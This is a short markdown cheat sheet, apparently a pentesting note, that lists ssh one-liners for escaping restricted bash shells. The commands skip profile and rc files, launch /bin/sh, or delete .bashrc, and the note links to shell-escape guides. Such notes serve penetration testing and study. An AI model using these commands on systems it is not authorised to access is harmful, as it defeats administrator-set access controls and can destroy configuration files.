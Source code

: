 # bypass bash restrictions

## ssh (most common)

```bash
ssh user@IP -t "bash --noprofile"
ssh -t user@IP bash --norc --noprofile
ssh -t user@IP /bin/sh
ssh -t user@IP "bash --norc --noprofile -c '/bin/rm .bashrc'"

```

## References

* [Hacktricks.xyz/bypass-bash-restrictions](https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions)
* [hacknos.com/rbash-escape-rbash-restricted-shell-escape](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape)
* [fireshellsecurity.team/restricted-linux-shell-escaping-techniques](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques)


